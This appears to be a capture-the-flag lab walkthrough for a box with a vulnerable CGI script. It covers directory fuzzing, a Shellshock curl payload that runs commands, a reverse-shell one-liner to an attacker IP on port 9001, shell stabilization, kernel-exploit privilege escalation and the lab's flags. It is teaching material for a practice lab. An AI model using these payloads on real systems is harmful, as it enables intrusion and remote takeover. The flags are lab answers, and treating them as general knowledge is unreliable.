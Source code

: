 ```yaml
---
sticker: emoji//1f422
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |



# RECONNAISSANCE
---


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250429135028.png)

Let's fuzz:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/FUZZ" -ic -c -t 200 -e .php,.html,.git

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.214.142/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .git
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.html              [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 284ms]
.html                   [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 285ms]
                        [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 285ms]
uploads                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 162ms]
img                     [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 933ms]
cgi-bin                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 933ms]
admin                   [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 160ms]
css                     [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 163ms]
js                      [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 160ms]
backup                  [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
secret                  [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
```


We got some interesting findings like `backup, secret` and `cgi-bin` let's check the first two:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250429140047.png)

There's an `id_rsa` key on here, we don't have the username so, let's simply save it for now, let's proceed to `secret`:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250429140228.png)

I tried getting some info with `steghide` but no luck, let's proceed then with `cgi-bin`, a `cgi-bin` directory often indicates the presence of legacy CGI (Common Gateway Interface) scripts, which can be vulnerable to attacks like **Shellshock**, **command injection**, or **path traversal** if poorly coded. 

Let's try `shellshock`, this vulnerability allows remote code execution without confirmation. A series of random characters, `() { :; }; ,` confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We need to fuzz the directory to find the script inside of it:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/cgi-bin/FUZZ" -ic -c -t 200 -e .cgi

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.214.142/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .cgi
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

test.cgi                [Status: 200, Size: 13, Words: 2, Lines: 2, Duration: 163ms]
```

There we go, let's proceed with exploitation.




# EXPLOITATION
---

With this, we can start the `shellshock` attack, let's test it:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'id'" http://10.10.214.142/cgi-bin/test.cgi
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250429140729.png)

There we go, `shellshock` attack works, let's get a shell then:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'sh -i >& /dev/tcp/IP/9001 0>&1'" http://10.10.214.142/cgi-bin/test.cgi
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250429140854.png)


We can proceed with privilege escalation.



# PRIVILEGE ESCALATION
---


Let's stabilize our shell first:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250429141002.png)

Let's use `linpeas` to look for any `PE` vector:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250429142332.png)

As seen, we are dealing with a `3.13.0-32-generic` Linux version, let's search information about how to escalate privileges in it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250429142418.png)

There's a `c` exploit we can get, once we get it on our victim machine, we can do the following:

```
gcc pe.c -o pe
```

If we try compiling it, we get this error:

```
www-data@ubuntu:/tmp$ gcc pe.c -o privesc
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

This is a problem in the `PATH`, we can fix it with:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Now, let's compile again:

```
gcc pe.c -o pe
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250429143345.png)

There we go, we can simply run it now:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250429143408.png)

We are root now and can finally read both flags:

```
# cat /home/ryan/user.txt
THM{Sh3llSh0ck_r0ckz}
```

```
# cat /root/root.txt
THM{g00d_j0b_0day_is_Pleased}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250429143558.png)

